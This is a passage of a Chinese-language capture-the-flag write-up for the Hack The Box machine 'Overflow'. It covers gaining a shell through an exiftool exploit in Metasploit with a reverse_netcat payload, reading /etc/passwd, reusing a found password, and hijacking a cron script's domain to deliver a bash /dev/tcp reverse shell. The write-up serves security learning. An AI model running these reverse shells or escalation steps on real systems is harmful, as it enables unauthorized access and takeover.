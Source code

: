 ![image](https://image.3001.net/images/20220413/1649861271_6256e297a07a63cca8d03.png!small)

但是发现图片上传后，被重命名了，所以没办法利用。

![image](https://image.3001.net/images/20220413/1649861784_6256e49820c28002b1d01.png!small)

最后，发现在EDB上发现exiftool工具的利用脚本，而且在MSF上也能成功找到利用脚本。

![image](https://image.3001.net/images/20220414/1649921150_6257cc7e8b7cc5a8d36e9.png!small)

需要注意的是，如果使用的是最新的kali，那么payload需要替换成`cmd/unix/reverse_netcat`，要不然不能成功接收shell。

![image](https://image.3001.net/images/20220414/1649921252_6257cce46c3ef1cb88091.png!small)

![image](https://image.3001.net/images/20220414/1649921297_6257cd1118bb47566ebac.png!small)

# 提权

### www-data提权tester

上传`linpeas.sh`脚本，发现了一个数据库密码。

![image](https://image.3001.net/images/20220414/1649921454_6257cdae1be1abd9dc149.png!small)

查看完`/etc/passwd`文件后，发现存在一个`developer`和`tester`账户，使用该密码可以成功登录developer账户。

![image](https://image.3001.net/images/20220414/1649921644_6257ce6c81c1cfb6ff7f2.png!small)

在`/opt`目录下发现一个脚本`commontask.sh`，脚本内容中出现一个不存在的域名。`taskmanage.overflow.htb`。可以尝试修改hosts文件，将域名指向到本机的ip上进行木马投毒，`task.sh`脚本的内容如下。

```
bash -i >& /dev/tcp/10.10.14.89/4444 0>&1
```

![image](https://image.3001.net/images/20220414/1649921812_6257cf14876ea508169da.png!small)

开启本地http服务，接收tester账户的shell。

![image](https://image.3001.net/images/20220414/1649921899_6257cf6bceb34df30747d.png!small)

### tester提权root

因为获取到的shell终端不稳定，所以需要对tester用户做权限持久化。

![image](https://image.3001.net/images/20220414/1649922050_6257d002b541652736abf.png!small)

![image](https://image.3001.net/images/20220414/1649922064_6257d0104bf0d0c06405f.png!small)

![image](https://image.3001.net/images/20220414/1649922075_6257d01b28c5cf0094626.png!small)

![image](https://image.3001.net/images/20220414/1649922093_6257d02d70f4c2d2ad181.png!small)
